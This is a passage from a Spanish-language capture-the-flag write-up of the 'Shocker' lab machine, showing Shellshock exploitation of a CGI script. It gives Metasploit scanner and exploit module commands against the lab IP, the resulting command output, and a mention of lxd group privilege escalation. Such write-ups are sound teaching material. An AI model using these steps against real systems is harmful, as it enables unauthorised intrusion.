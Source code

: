 
En el resultado se puede ver el resultado del comando '**id**' que inyectamos reportando que la web corre con el usuario Shelly, que entre otras cosas, está en el grupo lxd que es vulnerable a escalada de privilegios, pero esto lo evaluaremos después en caso de ser necesario.

###### Metasploit:

El framework de **Metasploit** también nos da la opción de revisar si un objetivo es vulnerable y explotarlo de forma automatizada, para ello iniciaremos el framework de Metasploit y haremos uso de 2 módulos, el primero será un módulo auxiliar para identificar un objetivo vulnerable.

```bash
msfconsole
use auxiliary/scanner/http/apache_mod_cgi_bash_env
```

Si listamos las opciones del módulo veremos varios campos que tienen opciones por defecto, que para efectos prácticos lo dejaremos así ya que nuestro objetivo va a ser ver si es vulnerable o no, de resto llenamos los campos **RHOST** y **TARGETURI** con la IP de la máquina y la URL donde se encuentra el script cgi al que queremos apuntar.

![[Pasted image 20240426135630.png]]\

```bash
set rhosts 10.10.10.56
set TARGETURI http://10.10.10.56/cgi-bin/user.sh
run
```

```
[+] uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

El resultado es el mismo que con nmap por lo tanto sabemos que el objetivo el vulnerable, podríamos explotar la vulnerabilidad desde este módulo modificando el comando a ejecutar, pero existe otro módulo más práctico para ganar acceso con el Shellshock, el **exploit/multi/http/apache_mod_cgi_bash_env_exec**.

```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

<p align="center">
    <img src="../../../assets/CTFs/Shocker/20240426142433.png" alt="4" width="100%" height="auto">